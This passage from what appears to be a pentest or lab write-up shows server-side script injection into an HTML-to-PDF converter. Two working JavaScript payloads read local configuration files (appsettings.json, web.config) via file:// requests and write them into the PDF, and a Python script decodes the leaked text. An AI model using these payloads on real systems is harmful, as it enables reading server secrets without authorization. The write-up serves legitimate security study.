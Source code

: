``` {.wp-block-syntaxhighlighter-code .code}
<script>     
    x=new XMLHttpRequest;
    x.onload=function(){
        document.write(this.responseText)
    };
    x.open("GET","file:///app/appsettings.json"); // The /app comes from the recon by reading the source code of the .html file
    x.send();
</script>
```

![](https://www.opencyber.com/wp-content/uploads/2021/10/testpdfoutput6.png)

The output confirms that we face a .NET Core application and that the
path is /app.

Reading the documentation we see that the web configuration file is
web.config thus we give it a try but got a blank page!

After some other tries, we understand that the content of the file may
interfere with the rendering into the PDF file. We need to find a way to
write the content other than rewriting the content directly into the
PDF.

We can encode our output, then write it into the PDF using this payload:

``` {.wp-block-syntaxhighlighter-code .code}
<script>

var oReq = new XMLHttpRequest();
oReq.onload = function(oEvent) {
        document.write(encodeURI(this.response));
};
oReq.open("GET", "file:///app/web.config");
oReq.send(null);
</script>
```

We try to retrieve the content of the /app/web.config file, encode it,
and write the output into the PDF.

![](https://www.opencyber.com/wp-content/uploads/2021/10/testpdfoutput10.png)

We can extract the content of the PDF file using python:

``` {.wp-block-syntaxhighlighter-code .code}
#!/usr/bin/env python3

from tika import parser # pip install tika
from urllib.parse import unquote

raw = parser.from_file('Test.pdf')
content = raw['content']

with open("web.config", 'w') as fichier:
    fichier.write(unquote(content))
```
